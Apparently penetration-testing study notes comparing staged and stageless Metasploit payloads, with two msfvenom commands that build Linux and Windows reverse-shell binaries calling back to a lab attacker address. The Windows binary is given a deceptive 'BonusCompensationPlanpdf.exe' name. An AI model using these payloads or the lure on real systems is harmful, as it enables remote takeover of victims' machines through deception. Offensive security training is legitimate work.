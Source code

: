 ### Staged vs Stageless Payloads
- Staged payload: 
	- Payloads are divided into components and they are sent separately
	- Create more unstable shell, take more memory
	- linux/x86/shell/reverse_tcp
- Stageless payload:
	- Payloads are sent in one entire component
	- More stable shell
	- linux/x86/meterpreter_reverse_tcp

### Build a Stageless Payload
```bash
# For Linux
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

# For Windows
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```



